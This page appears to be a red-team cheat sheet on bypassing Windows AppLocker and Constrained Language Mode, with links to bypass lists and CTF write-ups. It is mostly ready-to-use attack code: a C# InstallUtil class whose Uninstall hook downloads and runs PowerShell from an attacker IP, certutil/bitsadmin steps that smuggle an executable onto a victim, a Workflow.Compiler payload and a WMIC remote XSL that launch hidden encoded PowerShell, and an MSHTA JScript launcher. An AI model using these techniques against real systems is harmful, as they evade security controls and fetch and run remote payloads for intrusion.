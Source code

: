# AppLocker Bypass

* [https://github.com/api0cradle/UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList)
* [https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html](https://www.hackplayers.com/2018/12/english-cor-profilers-bypassing-windows.html)
* [https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html](https://0xdf.gitlab.io/2019/03/15/htb-ethereal-cor.html)
* [https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll)




## InstallUtil

A combination of AppLocker and CLM bypass:

{% code title="BypassCLM.cs" %}
```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace BypassCLM
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("These aren't the droids you're looking for.");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            string cmd = "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(cmd);
            ps.Invoke();
            rs.Close();
        }
    }
}
```
{% endcode %}

{% hint style="info" %}
Add a reference for the `System.Management.Automation` assembly before compilation from path:
```
C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35
```
{% endhint %}

Upload and execute:

```
Attacker > certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe bypass.txt
Victim > bitsadmin /Transfer myJob http://10.10.13.37/bypass.txt C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > certutil -decode C:\Windows\System32\spool\drivers\color\bypass.txt C:\Windows\System32\spool\drivers\color\bypass.exe && del C:\Windows\System32\spool\drivers\color\bypass.txt
Victim > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\System32\spool\drivers\color\bypass.exe
```




## Microsoft.Workflow.Compiler.exe

```
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe info.xml payload.txt
```

{% code title="info.xml" %}
```xml
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
<files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
<d2p1:string>payload.txt</d2p1:string>
</files>
<parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
<assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<compilerOptions i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<coreAssemblyFileName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></coreAssemblyFileName>
<embeddedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<evidence xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Security.Policy" i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<generateExecutable xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</generateExecutable>
<generateInMemory xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">true</generateInMemory>
<includeDebugInformation xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</includeDebugInformation>
<linkedResources xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<mainClass i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<outputName xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler"></outputName>
<tempFiles i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<treatWarningsAsErrors xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">false</treatWarningsAsErrors>
<warningLevel xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler">-1</warningLevel>
<win32Resource i:nil="true" xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
<d2p1:checkTypes>false</d2p1:checkTypes>
<d2p1:compileWithNoCode>false</d2p1:compileWithNoCode>
<d2p1:compilerOptions i:nil="true" />
<d2p1:generateCCU>false</d2p1:generateCCU>
<d2p1:languageToUse>CSharp</d2p1:languageToUse>
<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
<d2p1:mtInfo i:nil="true" />
<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
</parameters>
</CompilerInput>
```
{% endcode %}

{% code title="payload.txt" %}
```csharp
using System;
using System.Diagnostics;
using System.Workflow.Activities;
 
public class Foo : SequentialWorkflowActivity {
      public Foo() {
          Process process = new Process();
          // Configure the process using the StartInfo properties.
          process.StartInfo.FileName = "powershell.exe";
          process.StartInfo.Arguments = "-WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>";
          process.StartInfo.WindowStyle = ProcessWindowStyle.Normal;
          process.Start();
          process.WaitForExit();
      }
}
```
{% endcode %}




## JScript and MSHTA

Full path to `.hta` file is required:

```
Cmd > mshta.exe \users\snovvcrash\cmd.hta
```

{% code title="cmd.hta" %}
```
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
{% endcode %}




# WMIC

```
Cmd > wmic os get /format:"evil.xsl"
Cmd > wmic process get brief /format:"http://10.10.13.37/evil.xsl"
```

{% code title="evil.xsl" %}
```
<?xml version='1.0'?>
<stylesheet version="1.0"
xmlns="http://www.w3.org/1999/XSL/Transform"
xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
		<![CDATA[
			var r = new ActiveXObject("WScript.Shell");
			r.Run("powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_PWSH_CMD>");
		]]>
	</ms:script>
</stylesheet>
```
{% endcode %}
